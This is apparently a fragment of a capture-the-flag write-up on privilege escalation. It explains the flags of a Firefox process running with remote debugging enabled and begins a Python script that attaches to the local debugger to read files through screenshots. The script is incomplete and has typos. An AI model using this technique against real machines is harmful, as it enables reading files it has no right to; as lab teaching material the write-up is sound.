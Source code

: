 ![Untitled]({{ '/assets/images/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9_Untitled_20.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9_Untitled_21.png' | relative_url }})
<br/><br/>
# 3.Priv esc
<br/><br/>
Use linpeas to enumerate the whole system
<br/><br/>
![Untitled]({{ '/assets/images/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9_Untitled_22.png' | relative_url }})
<br/><br/>
- **firefox-esr** This is the executable for Firefox Entended Support Release, which is stable version of Firefox that is update less frequently.
- **—marionette** This enables marionette protocol, which is an automation protocol for Firefox. Marionette allows controlling and automating interaction with Firefoz via remote client.
- **—headless** This option starts Firefox in headless mode, meaning no graphical Firefox windows will be opened.
- **—remote-debugginport* This specifies the port which Firefox will listen for remote debugging requests. This is used when working with development tools that need to access the firefox instance for debugging or inspecting the loaded web page.
- **—remote-allow-host** This allow remote connections only from the [localhost](http://localhost) (port forwarding needed)
- **—no-remote** This option specifies that no additional remote connections will be allowed.
- **—profile /tmp/profile** This specifies the user profile that Firefox will use when starting.
<br/><br/>
![Untitled]({{ '/assets/images/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9_Untitled_23.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9_Untitled_24.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9/28f49904-02f6-4708-8461-b5ad886b164c-export-15d17823-fef8-4466-bcf6-f19e78910ad9_Untitled_25.png' | relative_url }})
<br/><br/>
With this information we will be able to run Firefox as debugger so with the following expoilt we cloud be able to find any file we want and take and screenshot of the open file
<br/><br/>
In python
<br/><br/>
```python
import json
import requests 
import websocket
import base64

#Debugger address
debugger_address = 'http://localhost:52735'

#Perform a http request to get open windows on the browser
response = request.get(f'{debugger_address}/json')

#Analyze JSON answer to obtain information about windows
tabs = response.json()

#Get the websocket debugger url of the first window and replace 
#'127.0.0.1' to 'localhost'
web_socket_debugger_url = tabs[0]['webSocketDebuggerUrl'].replace('127.0.0.1','localhost')
print(f'Connect to url: {web_socket_debugger_url}')

#Establishing connection 
ws = websocket.create_connection(web_socket_debugger_url, supress_origin=True)

#Preparing JSON command to create a new  (target) in the browser
```